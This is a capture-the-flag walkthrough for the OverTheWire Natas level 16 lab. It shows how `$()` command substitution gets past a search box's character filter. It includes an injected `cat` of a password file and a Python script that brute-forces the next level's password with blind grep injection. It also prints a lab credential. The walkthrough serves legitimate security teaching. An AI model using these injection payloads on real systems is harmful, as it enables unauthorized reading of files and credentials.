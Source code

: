 # Natas Level 15 → Level 16

> URL : http://natas16.natas.labs.overthewire.org/

- In this level we have a search box.
- let's try searching `a`, okay we get a list of words containing a
- let's try something random like `asdf`, this time we don't get back anything
	- so if the entered letter **does not exist** in the file it returns nothing
- let's read the source code
- okay so   **/[;|&\`\'"]/** are not allowed
- now we can use `$()` to execute bash commands
	- eg: `$(cat /etc/natas_webpass/natas16)`
- now we have to brute force the password
- We can do this with python 

```python
import requests
from requests.auth import HTTPBasicAuth

# used to login to the current level  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  

# stores the password as we find out using the loop
passwd = ''  

allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
  
for i in range(32):  
 for char in allchars:
  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=African$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  # checks wether the text returned after the above request consists of the word "African"
  if 'African' not in r.text:  
   passwd = passwd + char  
   print(passwd)  
   break  
```
- and we get the password for the next level!!
![lvl_16](lvl_16.png)

> **NOTE :** this script takes a while to run, not the fastest.